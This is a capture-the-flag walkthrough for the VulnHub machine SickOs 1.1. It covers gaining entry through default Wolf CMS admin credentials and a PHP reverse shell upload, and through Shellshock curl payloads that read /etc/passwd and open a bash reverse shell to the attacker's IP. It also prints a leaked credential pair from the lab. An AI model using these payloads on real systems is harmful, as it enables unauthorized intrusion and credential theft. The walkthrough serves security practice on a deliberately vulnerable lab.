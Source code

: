 # SickOs: 1.1

https://www.vulnhub.com/entry/sickos-11,132/


We do a netdiscover to find IP ` 192.168.1.91` and run a typical nmap scan `nmap -p 1-65535 -sV -sS -T4 192.168.1.91`. There is a squid-http which is a caching proxy and we can connect it by manually configuring firefox > network to accept `HTTP Proxy: 192.168.1.91 and Port: 3128`. We visit http://192.168.1.91/ and get a message "BLEHHH!!!". Now there are a couple of ways to get access.

### 1. wolfcms default admin

We can use nikto to use a proxy (remember to do it with other tools as well)`nikto -h 192.168.1.91 --useproxy 192.168.1.91:3128` and also `gobuster -u http://192.168.1.91/ -f -e -x html,jpg,css,txt,png,gif,lock,zip,git,php -w /usr/share/wordlists/dirb/common.txt -p http://192.168.1.91:3128`. We see the robots.txt leads to a `/wolfcms`, so we visit `http://192.168.1.91/wolfcms/` to find a blog of some sort. Similarly, we run the nikto and gobuster again, but didn't find anything interesting. Also tried `dirb http://192.168.1.91/wolfcms/ /usr/share/wordlists/dirb/common.txt -p http://192.168.1.91:3128`. Browsing through the site just seems to be all static resources, but there seems to be some post made by the administrator, but we cannot find the login page. We google this (e.g. wolfcms admin page) and told that the login maybe at `http://127.0.0.1/wolfcms/?admin`. We test admin:admin and it works.

From here, we can upload a shell in the public folder and access it via `http://192.168.1.91/wolfcms/public/php-reverse-shell.php` (make sure to edit the php file with the the attacker's vm IP and remember the port (default is 1234). Then, in our attack vm, we run listen via `nc -nlvp 1234` and visit the link again which should give us a shell. You can then find `uname -a` and find vulnerabilities through something like exploit-db and upload the exploit via the upload function and then execute it via shell. Or we can `cd /var/www/wolfcm` and `cat config.php` to find the passwords `root:john@123`. We then need to spawn a [TTY Shell](https://netsec.ws/?p=337) by running `python -c 'import pty; pty.spawn("/bin/sh")'` then `su sickos` found in `/etc/groups` and find the flag in `/root` folder! Note that the pass did not work for root, which meant to iterating through the users. But looking at the groups, we can see certain admins with sickos.



### 2. Shellshock
Looking back at nikto, we see a shellshock vulnerability.

```
+ OSVDB-112004: /cgi-bin/status: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271).
+ OSVDB-112004: /cgi-bin/status: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6278).
```
We check `http://192.168.1.91/cgi-bin/status` to see it returns a JSON which is normally the output of some bash commands. Shellshock works by manipulation of the environment variable, which can be injected in the HTTP header. Using some shellshock code we can find online, we run `curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" \ 192.168.1.91/cgi-bin/status -v --proxy 192.168.1.91:3128` to read execute commands. Instead, we do a reverse shell with `curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/192.168.1.88/1234 0>&1'" \ 192.168.1.91/cgi-bin/status -v --proxy 192.168.1.91:3128`. Make sure that you are already listening on your attacker machine `nc -nlvp 1234`, and then we can repeat the steps we did on the first example.
